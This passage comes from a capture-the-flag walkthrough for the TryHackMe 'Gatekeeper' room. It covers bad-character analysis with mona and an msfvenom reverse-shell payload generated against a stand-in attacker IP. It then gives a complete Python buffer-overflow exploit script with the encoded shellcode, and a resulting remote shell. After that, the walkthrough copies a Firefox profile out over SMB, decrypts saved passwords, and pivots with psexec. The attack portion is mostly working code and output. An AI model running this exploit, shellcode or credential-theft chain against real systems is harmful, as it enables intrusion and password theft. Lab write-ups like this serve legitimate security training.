f4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff
```

Next step, we modify the exploit script again (using the same script from previous).

This time we only set below and left everything as it was before.

- Set payload to the bad char generated.

In case you confuse, screenshot attached shown below:



Once above configuration ready, re-run gatekeeper.exe in Immunity Debugger again.

And run the buffer overflow exploit script again.

This time, we take a note on the ESP value --- checking in the CPU Thread in Immunity Debugger.

```text
EAX FFFFFFFF
ECX AF297640
EDX 00000000
EBX 00766538
ESP 00B419E4
EBP 41414141
ESI 08041470 gatekeep.08041470
EDI 00766538
EIP 42424242
```



Now we can compare the bytearray generated using mona command with bad char --- it will show possible bad char value.

Command to compare the bytearray as below

```text
!mona compare -f C:\Users\crazy\Desktop\TryHackMe-Gatekeeper-Completed\gatekeeper\bytearray.bin -a ESP_Value
```

In our case, we issue command below

```text
!mona compare -f C:\Users\crazy\Desktop\TryHackMe-Gatekeeper-Completed\gatekeeper\bytearray.bin -a 00B419E4
```

In Immunity Debugger, Log Data panel as shown below:



Note: The ESP value will change everytime we run the program and exploit !

There is a file called _compare.txt_ is generated in the Mona working directory.

Open up and look for the below:

```text
Possibly bad chars: 0a
Bytes omitted from input: 00
```

In this case, we get the Possibly bad chars: _0a_

Not all of these might be badchars!

Sometimes badchars cause the next byte to get corrupted as well, or even effect the rest of the string.

Which mean alternative byte is not bad char

**Note - below is repeated step --- this is to ensure we get all the possible bad characters**

Next, we going to generate sample byte in Immunity Debugger again with the possible bad characters we found, including the _\x00_.

```text
!mona bytearray -b '\x00\x0a'
```

Then we generate new bad with the possible bad characters

Modify generate-default-bad-char script, in the 'listRem' section to match the bad chars as shown

```python
#!/usr/bin/env python3
from __future__ import print_function

# To generate default bad char - this is applicable to every single buffer overflow

listRem = '\\x0a'.split('\\x')

for x in range(1, 256):
    if '{:02x}'.format(x) not in listRem:
        print('\\x' + '{:02x}'.format(x), end='')
print()
```



```dos
python generate-bad-char.py

\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0b\x0c\x0d\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff
```

In your exploit script, only replace the payload with above bad character payload

Run the program and exploit again.

Repeat the badchar comparison as well.

You may need to repeat the step as mentioned above until the results of Mona compare status returns 'Unmodified'.

This indicates that no more badchars exist.



Once we have the unmodified status.

Let's find the jump point using the mona command again

```text
!mona jmp -r esp -cpb '\x00\x0a\x01'
```

There is a _jump.txt_ file in the Mona working directory.

Open up and look for the address given the False.

```text
0x080414c3 : jmp esp |  {PAGE_EXECUTE_READ} [gatekeeper.exe] ASLR: False, Rebase: False, SafeSEH: True, OS: False, v-1.0- (C:\Users\crazy\Desktop\TryHackMe-Gatekeeper-Completed\gatekeeper.exe)
0x080416bf : jmp esp |  {PAGE_EXECUTE_READ} [gatekeeper.exe] ASLR: False, Rebase: False, SafeSEH: True, OS: False, v-1.0- (C:\Users\crazy\Desktop\TryHackMe-Gatekeeper-Completed\gatekeeper.exe)
```

Choose an address - the one that has many False, in this case we are selecting the top address.

Update your exploit script, setting the 'retn' variable to the address, written backwards (since the system is little endian).

For example if the address is \x01\x02\x03\x04 in Immunity, write it as \x04\x03\x02\x01 in your exploit.

In this case, our address = 0x080414c3, so we write as \xc3\x14\x04\x08

Then, use msfvenom generate payload with our bad chars (Our bad chars = \x00\x0a\x01)

msfvenom command as below

```dos
C:\PentestBox\bin\metasploit-framework\tools\exploit
> msfvenom -p windows/shell_reverse_tcp LHOST=YOUR_ATTACKER_IP LPORT=YOUR_ATTACKER_PORT_NUMBER -b '\x00\x0a\x01' EXITFUNC=thread -f python -v payload


No platform was selected, choosing Msf::Module::Platform::Windows from the payload
No Arch selected, selecting Arch: x86 from the payload
Found 10 compatible encoders
Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai succeeded with size 351 (iteration=0)
x86/shikata_ga_nai chosen with final size 351
Payload size: 351 bytes
Final size of python file: 1838 bytes
payload =  ''
payload += '\xb8\xfb\xfe\x16\x16\xd9\xc6\xd9\x74\x24\xf4\x5f'
payload += '\x29\xc9\xb1\x52\x31\x47\x12\x83\xef\xfc\x03\xbc'
payload += '\xf0\xf4\xe3\xbe\xe5\x7b\x0b\x3e\xf6\x1b\x85\xdb'
payload += '\xc7\x1b\xf1\xa8\x78\xac\x71\xfc\x74\x47\xd7\x14'
payload += '\x0e\x25\xf0\x1b\xa7\x80\x26\x12\x38\xb8\x1b\x35'
payload += '\xba\xc3\x4f\x95\x83\x0b\x82\xd4\xc4\x76\x6f\x84'
payload += '\x9d\xfd\xc2\x38\xa9\x48\xdf\xb3\xe1\x5d\x67\x20'
payload += '\xb1\x5c\x46\xf7\xc9\x06\x48\xf6\x1e\x33\xc1\xe0'
payload += '\x43\x7e\x9b\x9b\xb0\xf4\x1a\x4d\x89\xf5\xb1\xb0'
payload += '\x25\x04\xcb\xf5\x82\xf7\xbe\x0f\xf1\x8a\xb8\xd4'
payload += '\x8b\x50\x4c\xce\x2c\x12\xf6\x2a\xcc\xf7\x61\xb9'
payload += '\xc2\xbc\xe6\xe5\xc6\x43\x2a\x9e\xf3\xc8\xcd\x70'
payload += '\x72\x8a\xe9\x54\xde\x48\x93\xcd\xba\x3f\xac\x0d'
payload += '\x65\x9f\x08\x46\x88\xf4\x20\x05\xc5\x39\x09\xb5'
payload += '\x15\x56\x1a\xc6\x27\xf9\xb0\x40\x04\x72\x1f\x97'
payload += '\x6b\xa9\xe7\x07\x92\x52\x18\x0e\x51\x06\x48\x38'
payload += '\x70\x27\x03\xb8\x7d\xf2\x84\xe8\xd1\xad\x64\x58'
payload += '\x92\x1d\x0d\xb2\x1d\x41\x2d\xbd\xf7\xea\xc4\x44'
payload += '\x90\x1e\x1d\x44\x35\x77\x1f\x48\x97\x3f\x96\xae'
payload += '\xbd\x2f\xff\x79\x2a\xc9\x5a\xf1\xcb\x16\x71\x7c'
payload += '\xcb\x9d\x76\x81\x82\x55\xf2\x91\x73\x96\x49\xcb'
payload += '\xd2\xa9\x67\x63\xb8\x38\xec\x73\xb7\x20\xbb\x24'
payload += '\x90\x97\xb2\xa0\x0c\x81\x6c\xd6\xcc\x57\x56\x52'
payload += '\x0b\xa4\x59\x5b\xde\x90\x7d\x4b\x26\x18\x3a\x3f'
payload += '\xf6\x4f\x94\xe9\xb0\x39\x56\x43\x6b\x95\x30\x03'
payload += '\xea\xd5\x82\x55\xf3\x33\x75\xb9\x42\xea\xc0\xc6'
payload += '\x6b\x7a\xc5\xbf\x91\x1a\x2a\x6a\x12\x3a\xc9\xbe'
payload += '\x6f\xd3\x54\x2b\xd2\xbe\x66\x86\x11\xc7\xe4\x22'
payload += '\xea\x3c\xf4\x47\xef\x79\xb2\xb4\x9d\x12\x57\xba'
payload += '\x32\x12\x72'
```

Updated your exploit script with the following:

- Set payload to the payload you get from msfvenom
- Set padding = '\x90' * 16

Your last buffer overflow exploit script should be something like this:

```python
import socket,time

ip = '10.10.81.67'
port = 31337
timeout = 5
offset = 146
overflow = 'A' * offset
retn_value = '\xc3\x14\x04\x08'
padding = '\x90' * 16
payload = ''
payload += '\xb8\xfb\xfe\x16\x16\xd9\xc6\xd9\x74\x24\xf4\x5f'
payload += '\x29\xc9\xb1\x52\x31\x47\x12\x83\xef\xfc\x03\xbc'
payload += '\xf0\xf4\xe3\xbe\xe5\x7b\x0b\x3e\xf6\x1b\x85\xdb'
payload += '\xc7\x1b\xf1\xa8\x78\xac\x71\xfc\x74\x47\xd7\x14'
payload += '\x0e\x25\xf0\x1b\xa7\x80\x26\x12\x38\xb8\x1b\x35'
payload += '\xba\xc3\x4f\x95\x83\x0b\x82\xd4\xc4\x76\x6f\x84'
payload += '\x9d\xfd\xc2\x38\xa9\x48\xdf\xb3\xe1\x5d\x67\x20'
payload += '\xb1\x5c\x46\xf7\xc9\x06\x48\xf6\x1e\x33\xc1\xe0'
payload += '\x43\x7e\x9b\x9b\xb0\xf4\x1a\x4d\x89\xf5\xb1\xb0'
payload += '\x25\x04\xcb\xf5\x82\xf7\xbe\x0f\xf1\x8a\xb8\xd4'
payload += '\x8b\x50\x4c\xce\x2c\x12\xf6\x2a\xcc\xf7\x61\xb9'
payload += '\xc2\xbc\xe6\xe5\xc6\x43\x2a\x9e\xf3\xc8\xcd\x70'
payload += '\x72\x8a\xe9\x54\xde\x48\x93\xcd\xba\x3f\xac\x0d'
payload += '\x65\x9f\x08\x46\x88\xf4\x20\x05\xc5\x39\x09\xb5'
payload += '\x15\x56\x1a\xc6\x27\xf9\xb0\x40\x04\x72\x1f\x97'
payload += '\x6b\xa9\xe7\x07\x92\x52\x18\x0e\x51\x06\x48\x38'
payload += '\x70\x27\x03\xb8\x7d\xf2\x84\xe8\xd1\xad\x64\x58'
payload += '\x92\x1d\x0d\xb2\x1d\x41\x2d\xbd\xf7\xea\xc4\x44'
payload += '\x90\x1e\x1d\x44\x35\x77\x1f\x48\x97\x3f\x96\xae'
payload += '\xbd\x2f\xff\x79\x2a\xc9\x5a\xf1\xcb\x16\x71\x7c'
payload += '\xcb\x9d\x76\x81\x82\x55\xf2\x91\x73\x96\x49\xcb'
payload += '\xd2\xa9\x67\x63\xb8\x38\xec\x73\xb7\x20\xbb\x24'
payload += '\x90\x97\xb2\xa0\x0c\x81\x6c\xd6\xcc\x57\x56\x52'
payload += '\x0b\xa4\x59\x5b\xde\x90\x7d\x4b\x26\x18\x3a\x3f'
payload += '\xf6\x4f\x94\xe9\xb0\x39\x56\x43\x6b\x95\x30\x03'
payload += '\xea\xd5\x82\x55\xf3\x33\x75\xb9\x42\xea\xc0\xc6'
payload += '\x6b\x7a\xc5\xbf\x91\x1a\x2a\x6a\x12\x3a\xc9\xbe'
payload += '\x6f\xd3\x54\x2b\xd2\xbe\x66\x86\x11\xc7\xe4\x22'
payload += '\xea\x3c\xf4\x47\xef\x79\xb2\xb4\x9d\x12\x57\xba'
payload += '\x32\x12\x72'
postfix = ''
buffer = overflow + retn_value + padding + payload + postfix
try:
  with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:
    s.settimeout(timeout)
    s.connect((ip, port))
    print('Sending evil buffer...')
    s.send(bytes(buffer + '\r\n', 'latin-1'))
    print('Done!')
except:
  print('Could not connect.')
```

Then fire up your netcat listener on your machines.

Fire up the final exploit script and you should get reverse shell.

```dos
C:\Users\crazy\Desktop\TryHackMe-Gatekeeper-Completed>nc8888
listening on [any] 8888 ...

connect to [x] from (UNKNOWN) [10.10.81.67] 49209
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Users\natbat\Desktop>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is 3ABE-D44B

 Directory of C:\Users\natbat\Desktop


C:\Users\natbat\Desktop>type user.txt.txt
```

Now you have your user flag !

As the room description, "Can you get past the gate and through the fire?"

Perhaps check firefox ??

First navigate to ` %appdata% ` folder, then navigate to ` \Roaming\Mozilla\Firefox\Profiles\ `

```dos
C:\Users\natbat\AppData\Roaming\Mozilla\Firefox\Profiles\ljfn812a.default-release>dir /A
dir /A
 Volume in drive C has no label.
 Volume Serial Number is 3ABE-D44B

 Directory of C:\Users\natbat\AppData\Roaming\Mozilla\Firefox\Profiles\ljfn812a.default-release

05/14/2020  10:45 PM    <DIR>          .
05/14/2020  10:45 PM    <DIR>          ..
05/14/2020  10:30 PM                24 addons.json
05/14/2020  10:23 PM             1,952 addonStartup.json.lz4
05/14/2020  10:45 PM                 0 AlternateServices.txt
05/14/2020  10:30 PM    <DIR>          bookmarkbackups
05/14/2020  10:24 PM               216 broadcast-listeners.json
04/22/2020  12:47 AM           229,376 cert9.db
04/21/2020  05:00 PM               220 compatibility.ini
04/21/2020  05:00 PM               939 containers.json
04/21/2020  05:00 PM           229,376 content-prefs.sqlite
05/14/2020  10:45 PM           524,288 cookies.sqlite
05/14/2020  10:24 PM    <DIR>          crashes
05/14/2020  10:45 PM    <DIR>          datareporting
04/21/2020  05:00 PM             1,111 extension-preferences.json
04/21/2020  05:00 PM    <DIR>          extensions
05/14/2020  10:34 PM            39,565 extensions.json
05/14/2020  10:45 PM         5,242,880 favicons.sqlite
05/14/2020  10:39 PM           196,608 formhistory.sqlite
04/21/2020  10:50 PM    <DIR>          gmp-gmpopenh264
04/21/2020  10:50 PM    <DIR>          gmp-widevinecdm
04/21/2020  05:00 PM               540 handlers.json
04/21/2020  05:02 PM           294,912 key4.db
05/14/2020  10:43 PM               600 logins.json
04/21/2020  05:00 PM    <DIR>          minidumps
05/14/2020  10:23 PM                 0 parent.lock
05/14/2020  10:25 PM            98,304 permissions.sqlite
04/21/2020  05:00 PM               506 pkcs11.txt
05/14/2020  10:45 PM         5,242,880 places.sqlite
05/14/2020  10:45 PM            11,096 prefs.js
05/14/2020  10:45 PM            65,536 protections.sqlite
05/14/2020  10:45 PM    <DIR>          saved-telemetry-pings
05/14/2020  10:23 PM             2,715 search.json.mozlz4
05/14/2020  10:45 PM                 0 SecurityPreloadState.txt
04/21/2020  10:50 PM    <DIR>          security_state
05/14/2020  10:45 PM               288 sessionCheckpoints.json
05/14/2020  10:45 PM    <DIR>          sessionstore-backups
05/14/2020  10:45 PM            12,889 sessionstore.jsonlz4
04/21/2020  05:00 PM                18 shield-preference-experiments.json
05/14/2020  10:45 PM             1,357 SiteSecurityServiceState.txt
04/21/2020  05:00 PM    <DIR>          storage
05/14/2020  10:45 PM             4,096 storage.sqlite
04/21/2020  05:00 PM                50 times.json
05/14/2020  10:45 PM                 0 TRRBlacklist.txt
04/21/2020  05:00 PM    <DIR>          weave
04/21/2020  05:02 PM            98,304 webappsstore.sqlite
05/14/2020  10:45 PM               140 xulstore.json
              33 File(s)     12,300,786 bytes
              14 Dir(s)  15,846,703,104 bytes free
```

Since we have smb access to the Share directory, let's create a folder there and copy all the files from firefox profile.

```dos
md C:\Users\Share\ljfn812a.default-release

C:\Users\natbat\AppData\Roaming\Mozilla\Firefox\Profiles>xcopy /S /H ljfn812a.default-release C:\Users\Share\ljfn812a.default-release
```

Then we can download it.

```bash
┌💁  root @ 💻  austin-helper-x13 in 📁  TryHackMe-Gatekeeper-Completed
└❯ smbget -Rrv smb://10.10.81.67/Users/Share/ljfn812a.default-release -U anonymous
Password for [anonymous] connecting to //Users/10.10.81.67:
Using workgroup WORKGROUP, user anonymous
smb://10.10.81.67/Users/Share/ljfn812a.default-release/addons.json
smb://10.10.81.67/Users/Share/ljfn812a.default-release/addonStartup.json.lz4
smb://10.10.81.67/Users/Share/ljfn812a.default-release/AlternateServices.txt
smb://10.10.81.67/Users/Share/ljfn812a.default-release/bookmarkbackups/bookmarks-2020-05-14_11_fpRuQ0Xb8Mj0VzuQhTyhyQ==.jsonlz4
smb://10.10.81.67/Users/Share/ljfn812a.default-release/broadcast-listeners.json
....
```

You will have all the firefox profile, if you done research or google it, you will find one particular tools to decrypt the firefox profile.

If the profile contain username password, you will have it !!

Get Firefox Decrypt is a tool to extract passwords from Mozilla (Firefox™, Waterfox™, Thunderbird®, SeaMonkey®) profiles, check out [here](https://github.com/unode/firefox_decrypt)

Download and extract it, then run below command.

```dos
python firefox_decrypt.py firefox_profile_folder
```

In this case:

```
C:\Users\crazy\Desktop\TryHackMe-Gatekeeper-Completed\firefox_decrypt-master>python firefox_decrypt.py ..\ljfn812a.default-release
2021-08-22 11:02:37,276 - WARNING - Running with unsupported encoding 'locale': cp1252 - Things are likely to fail from here onwards
2021-08-22 11:02:37,341 - WARNING - profile.ini not found in ..\ljfn812a.default-release
2021-08-22 11:02:37,342 - WARNING - Continuing and assuming '..\ljfn812a.default-release' is a profile location

Website:   https://creds.com
Username: 'xxx'
Password: 'xxxx'
```

Now you have another user credentials, you can try RDP in or using Sysinternal - psexec !

We use psexec to interact with it

```dos
C:\austin-tools\RedTeam_Tools\SysinternalsSuite>psexec -i -u xxx -p xxx \\10.10.81.67 cmd
PsExec v2.34 - Execute processes remotely
Copyright (C) 2001-2021 Mark Russinovich
Sysinternals - www.sysinternals.com

Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Windows\system32>whoami
gatekeeper\mayor

C:\Windows\system32>dir C:\Users\Mayor\Desktop
 Volume in drive C has no label.
 Volume Serial Number is 3ABE-D44B

 Directory of C:\Users\Mayor\Desktop

05/14/2020  09:58 PM    <DIR>          .
05/14/2020  09:58 PM    <DIR>          ..
05/14/2020  09:21 PM                27 root.txt.txt
               1 File(s)             27 bytes
               2 Dir(s)  15,932,575,744 bytes free
```

And now you have the root flag !!

<br />

---

> Do let me know any command or step can be improve or you have any question you can contact me via THM message or write down comment below or via FB


